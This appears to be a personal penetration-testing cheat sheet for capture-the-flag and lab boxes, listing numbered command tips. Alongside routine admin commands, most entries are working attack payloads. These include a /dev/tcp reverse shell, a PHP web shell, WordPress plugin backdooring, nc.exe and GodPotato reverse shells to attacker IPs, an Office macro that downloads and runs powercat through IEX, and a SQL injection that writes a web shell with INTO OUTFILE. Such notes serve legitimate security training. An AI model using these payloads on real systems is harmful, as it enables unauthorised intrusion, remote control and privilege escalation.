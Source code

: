 o***BOXES:***

1. Look for low-hanging fruits (searchsploit)
2. USE BURPSUITE, CHECK ALL THE REQS AND RESPS
3. 


_1)_ Conecting via xfreerdp:

```
xfreerdp /u:username /p:password /v:IP
```

_2)_ Using escape character:

```
cat script.db | grep "\"vuln\""
```

Search for "vuln". For instance:

![[Pasted image 20240208202918.png]]

_3)_ Adding DNS entry:

```
sudo sh -c 'echo "SERVER_IP academy.htb" >> /etc/hosts'
```

_4)_ Decoding/encoding base64

```
echo -n "VGhlIGZsYWcgaXM6IE9Te2UxYzRlZDM0ODY2NGEzMDJiNWZmMmEwZjJkZmYzYTU3fQ==" | base64 -d
...
echo -n "Encode this!" | base64
```

_5)_ Connecting via private key

```
chmod 400 key.txt
...
ssh -i key.txt username@IP -p <PORT> (22 default)
```

_6)_ SSH keys can be found in:

```
cat ~/.ssh/id_rsa
```

_7)_ Testing DT via curl:

```
curl -v --path-as-is http://example.com:port/search.php?query=<payload>
```

_8)_ There might be instances when we should use simpler reverse shells. 

Firstly:

```
(sh)>0/dev/tcp/IP/PORT
```

Then:

```
exec >&0
```

_9)_ php web shell

```
<?php system($_GET['cmd']); ?>
```

_10)_ Starting a web server:

```
python3 -m http.server 8888
```

_11)_ Looking for a file in Windows (equivalent of find in linux):

```
Get-ChildItem -Path C:\ -Include <filename> -File -Recurse -ErrorAction SilentlyContinue
```

_12)_ Finding file location:

```
Get-Process <processname> | format-list path
```

_13)_ Host sweep, if there is no nmap:

```
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```

the **-z** flag to check for a listening port without sending data, **-v** for verbosity, and **-w** set to **1** to ensure a _lower time-out threshold_.

_14)_ In wordpress, if we get access to /wp-admin page, we can edit plugins and then get a reverse shell. To do that:
1. replace any plugin (elementor for instance) with reverse shell
2. start a netcat listener (`nc -lnvp 4444`)
3. then access the plugin in /wp-content/plugins/plugin_name/something.php (in our case it is wp-content/plugins/elementor/elementor.php)

_15)_ Transferring files from Windows to Linux:

Kali:

```
impacket-smbserver test . -smb2support  -username nazim -password nazim
```

```
net use m: \\192.168.45.194\test /user:nazim nazim
copy output.zip m:\
```

_16_)
```
.\godpotato -cmd "C:\users\public\nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.160 8081"
```

_17)_ Let's say we can execute commands only from smb. No transfers or nc.exe are available. Another way of transferrring a file from Kali to compromised machine and executing is:

On Kali:

```
smbserver.py -smb2support evil $PWD
```

On compromised machine through cmd:

```
//kali_ip/evil/shell.exe
```


_18)_ If default commands such as whoami do not work, set $PATH variable:

```
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```

_19)_ Macros and powercat:

```
Sub Main

	Shell("cmd /c powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.187/powercat.ps1');powercat -c 192.168.45.187 -p 135 -e powershell")

End Sub
```

_20)_ Into outfile

```
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'  -- -
```

